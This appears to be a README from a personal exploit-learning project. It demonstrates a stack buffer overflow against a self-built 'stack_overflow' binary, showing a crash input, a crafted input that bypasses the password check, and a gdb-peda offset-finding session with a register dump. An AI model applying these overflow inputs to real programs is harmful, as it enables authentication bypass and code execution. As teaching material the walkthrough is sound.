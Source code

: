 ## Deny of service
```python
$ python3 -c "print('A'*100)" | ./stack_overflow
Enter a password: 
Segmentation fault (core dumped)
```

## Changing program behavior
```python
$ python3 -c "print('A'*9 + '\x00'*12 + 'A'*9 + '\x00')" | ./stack_overflow
Enter a password: 
Authentication SUCCEEDED
```

## Arbitrary code execution

```python
$ gdb stack_overflow

gdb-peda$ pattern_create 200 pattern.in
Writing pattern of 200 chars to filename "pattern.in"

gdb-peda$ r < pattern.in 
Starting program: /home/talantov/projects/appsec/exploit/build/stack_overflow < pattern.in
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter a password: 

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.


[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x4134414165414149 ('IAAeAA4A')
RCX: 0x7fffffffde05 ("-AA(AADAA;A\271")
RDX: 0xb9 
RSI: 0x21 ('!')
RDI: 0x7fffffffddb0 --> 0xb9 
RBP: 0x3541416641414a41 ('AJAAfAA5')
RSP: 0x7fffffffde48 ("AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAqSUUUU")
RIP: 0x555555555370 (<_Z4authv+221>:	ret)
R8 : 0x21 ('!')
R9 : 0x55555556aeb0 ("Enter a password: \n")
R10: 0x7ffff780d560 --> 0xf002200006490 
R11: 0x246 
R12: 0x7fffffffdf88 --> 0x7fffffffe2d2 ("/home/talantov/projects/appsec/exploit/build/stack_overflow")
R13: 0x555555555371 (<main(int, char**)>:	endbr64)
R14: 0x555555557d68 --> 0x5555555551e0 (<__do_global_dtors_aux>:	endbr64)
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x555555554000 --> 0x10102464c457f
EFLAGS: 0x10293 (CARRY parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555555366 <_Z4authv+211>:	call   0x55555555586a <_ZSteqIcSt11char_traitsIcEEbSt17basic_string_viewIT_T0_ENSt15__type_identityIS5_E4typeE>
   0x55555555536b <_Z4authv+216>:	mov    rbx,QWORD PTR [rbp-0x8]
   0x55555555536f <_Z4authv+220>:	leave  
=> 0x555555555370 <_Z4authv+221>:	ret    
```